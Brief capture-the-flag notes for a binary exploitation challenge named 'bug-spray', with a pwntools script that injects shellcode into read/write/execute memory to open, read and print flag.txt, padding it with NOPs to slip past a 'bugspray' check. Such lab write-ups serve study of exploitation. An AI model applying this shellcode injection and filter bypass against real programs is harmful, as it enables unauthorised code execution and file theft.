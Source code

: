 # bug-spray

https://youtu.be/qA6ajf7qZtQ?si=xhQP5Miy1iTUheHW&t=1942

- ghidra, handrolled asm
- chunk of memory allocated with read/write/execute
- need to bypass `bugspray` function
- gdb can't actually be used by design

```py
libc = elf.libc
p = elf.process

shellcode = pwn.asm(
    # pwn.shellcode.trap()
    # pwn.shellcraft.write(1, 'rsp', 0x10)

    pwn.shellcraft.open('./flag.txt') +
    pwn.shellcraft.read(3, 'rsp', 64) +
    pwn.shellcraft.write(1, 'rsp', 64)
).ljust(0x44, b'\x90')

# ljust to make sure bugspray isnt triggered

p.sendlineafter(b'>>>', shellcode)
p.interactive()
```
